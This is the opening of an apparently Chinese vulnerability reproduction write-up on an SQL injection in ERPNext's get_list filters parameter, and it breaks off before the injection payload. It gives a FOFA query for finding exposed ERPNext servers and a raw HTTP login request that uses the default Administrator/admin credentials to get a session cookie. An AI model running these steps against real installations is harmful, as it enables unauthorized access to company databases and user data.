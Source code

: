 
# ERPNext SQL 注入漏洞复现

### 0x01 产品简介

 ERPNext 是一套开源的企业资源计划系统。

### 0x02 漏洞概述

 ERPNext 系统 frappe.model.db\_query.get\_list 文件 filters 参数存在 SQL 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

FOFA：app="ERPNext"

![](assets/1701746027-f399d191f30f784ea3efa51ed8776fbe.png)

### 0x04 漏洞复现 

获取有效 cookie

```cobol
POST / HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 52

cmd=login&usr=Administrator&pwd=admin&device=desktop
```

![](assets/1701746027-def19b077e2b94140d397452dd9a6fb4.png)

尝试注
